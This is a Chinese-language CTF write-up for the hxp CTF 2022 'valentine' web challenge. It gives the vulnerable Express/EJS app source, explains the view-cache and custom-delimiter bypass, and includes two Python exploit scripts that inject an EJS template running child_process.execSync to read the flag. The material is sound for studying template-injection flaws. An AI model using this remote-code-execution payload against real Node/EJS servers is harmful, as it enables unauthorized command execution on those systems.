 #RCE

原文：[hxp | hxp CTF 2022: valentine](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)

默认的 NodeJS RCE，它读取/flag：

```html
<.-
global.process.mainModule.constructor._load(`child_process`).execSync(`/readflag`).toString()
.>
```

在 Dockerfile 中，节点环境设置为生产环境。

```Dockerfile
ENV NODE_ENV=production
```

这会导致快速缓存视图。

```javascript
if (env === "production") {
  this.enable("view cache");
}
```

由于 POST 请求直接重定向到没有分隔符的模板，因此将缓存默认分隔符`%`，以后无法覆盖。

但可以禁止重定向：

- Python：`requests.port(..., allow_redirects=False)`
- Firefox: set `network.http.redirection-limit` to `1` in `about:config`

如果随后使用`delimiter=.`访问站点，则将在模板中使用新的`delimiter`。

## pwn.py

```python
import requests
import re

HOST = "TODO"
PORT = TODO

# write template
r = requests.post(
    f"http://{HOST}:{PORT}/template",
    data={
        "tmpl": """<.- global.process.mainModule.constructor._load(`child_process`).execSync(`/readflag`).toString() .>"""
    },
    allow_redirects=False,
)

# change delimiter
m = re.search(r"Redirecting to /(?P<uuid>.*)?name=", r.text)
r = requests.get(f"http://{HOST}:{PORT}/{m.group('uuid')}?name=a&delimiter=.")
m = re.search(r"hxp\{[^}]+\}", r.text)
print(m.group(0))

```

另一种

```python
import requests

url = ""
tmpl = (
    "flag: <$= process.mainModule.require('child_process').execSync('../readflag') $>"
)
r = requests.post(
    url + "/template", data={"tmpl": tmpl, "name": "gork"}, allow_redirects=False
)
redirect = r.headers["location"]

r = requests.get(url + redirect + "&delimiter=$")
print(r.text)

```

个人理解

app.py

```python
var express = require('express');
var bodyParser = require('body-parser')
const crypto = require("crypto");
var path = require('path');
const fs = require('fs');

var app = express();
viewsFolder = path.join(__dirname, 'views');

if (!fs.existsSync(viewsFolder)) {
  fs.mkdirSync(viewsFolder);
}

app.set('views', viewsFolder);
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: false }))

app.post('/template', function (req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while ((i = tmpl.indexOf("<%", i + 1)) >= 0) {
    if (tmpl.substring(i, i + 11) !== "<%= name %>") {
      res.status(400).send({ message: "Only '<%= name %>' is allowed." });
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch (err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function (req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

app.get('/', function (req, res) {
  return res.sendFile('./index.html', { root: __dirname });
});

app.listen(process.env.PORT || 3000);
```

首先， /template 传递的 tml 会根据 `<%` 匹配 <%= name %>，上面的两个脚本是不同的方式

一个是在开始就修改 delimiter,另一个是重定向时修改 delimiter。

至于这个命令

```javascript
global.process.mainModule.constructor
  ._load(`child_process`)
  .execSync(`/readflag`)
  .toString();
```

是用到了原型链以及 nodejs child_process 模块相关的内容
